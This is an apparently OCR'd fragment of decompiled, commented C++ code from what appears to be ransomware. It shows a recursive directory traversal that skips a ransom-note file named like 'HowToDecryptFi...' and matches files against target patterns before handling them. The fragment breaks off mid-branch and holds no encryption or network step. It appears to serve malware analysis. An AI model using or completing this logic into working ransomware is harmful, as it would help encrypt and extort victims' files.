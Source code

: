```cpp
    *(_DWORD *)&FindFileData[318] = result - 1; // Store the result pointer in FindFileData

    // Loop until all files are processed
    while (1)
    {
      // If the file is a directory
      if ((FindFileData[0] & 0x10) != 0)
      {
        // Check if the file name matches certain strings
        if (lstrcmpA(asc_404032, &FindFileData[44]) &&
            lstrcmpA(asc_404034, &FindFileData[44]))
        {
          // Extract the file name and concatenate it to the path
          FileNameA = PathFindFileNameA((LPCSTR)&dword_40444F + 1);
          v13 = FileNameA - ((char *)&dword_40444F + 1);
          *FileNameA = 0;
          lstrcatA((LPSTR)&dword_40444F + 1, &FindFileData[44]);

          // Call sub_4013A8 recursively
          v2 = lstrlenA((LPCSTR)&dword_40444F + 1);
          *(int *)((char *)&dword_40444F + v2 + 1) = 707668572;
          byte_404454[v2] = 0;
          sub_4013A8();
          *(int *)((char *)&dword_40444F + v13) = 707668572;
          byte_404453[v13] = 0;
        }
      }
      else
      {
        sub_401377();

        // Check if the file name matches certain strings
        if (lstrcmpiA(&String2, &FindFileData[44]) &&
            lstrcmpiA(aHowToDecryptFi, &FindFileData[44]) &&
            lstrcmpiA(String1, &FindFileData[44]))
        {
          // Manipulate file paths
          *PathFindFileNameA((LPCSTR)&dword_40444F + 1) = 0;

          // Additional processing based on certain conditions
          if (byte_40752A == 1)
            sub_40103A((LPCSTR)&dword_40444F + 1);
          lstrcatA((LPSTR)&dword_40444F + 1, &FindFileData[44]);
          if (byte_406550 != 1)
          {
            // Additional processing based on certain conditions
            v3 = *(_DWORD *)dword_407519;
            v4 = (const CHAR *)(dword_407519 + 4);
            while (1)
            {
              v14 = v3;
              matched = PathMatchSpecA((LPCSTR)&dword_40444F + 1, v4);
              v4 += lstrlenA(v4) + 1;
              if (matched)
                break;
              v3 = v14 - 1;
              if (v14 == 1)
                goto LABEL_37;
            }
LABEL_19:
            // Additional processing based on certain conditions
            lstrcpyA(ExistingFileName, (LPCSTR)&dword_40444F + 1);
            if (byte_406550)
```